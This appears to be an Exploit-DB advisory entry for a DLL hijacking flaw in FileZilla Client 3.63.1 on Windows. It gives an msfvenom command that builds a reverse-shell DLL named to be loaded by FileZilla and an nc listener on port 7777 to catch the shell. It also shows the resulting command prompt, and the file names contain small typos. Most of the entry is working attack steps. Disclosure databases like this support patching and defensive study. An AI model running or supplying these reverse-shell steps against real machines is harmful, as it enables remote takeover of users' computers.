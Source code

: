 # FileZilla Client 3.63.1 - 'TextShaping.dl' DLL Hijacking

https://www.exploit-db.com/exploits/51267

```
#---------------------------------------------------------
# Title: FileZilla Client 3.63.1 - 'TextShaping.dl' DLL Hijacking
# Date: 2023-02-14
# Author: Bilal Qureshi
# Vendor: https://filezilla-project.org/
# Version: 3.63.1
# Tested on: Windows 10 Pro 64-bit (10.0, Build 19044)
#---------------------------------------------------------
```

## Description:
FileZilla is a free and open-source, cross-platform FTP application, consisting of FileZilla Client and FileZilla Server. Clients are available for Windows, Linux, and macOS. Both server and client support FTP and FTPS, while the client can in addition connect to SFTP servers.

DLL Library named TextShaping.dll is not present at the FileZilla folder, this file can be loaded with the app.
Make malicious .dll file via msfvenom

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=7777 -f dll -o TextShaping.sll

place at the destination folder

start listener via nc

nc -lvp 7777

C:\PRogram Files\FileZilla FTP Client>
C:\PRogram Files\FileZilla FTP Client>
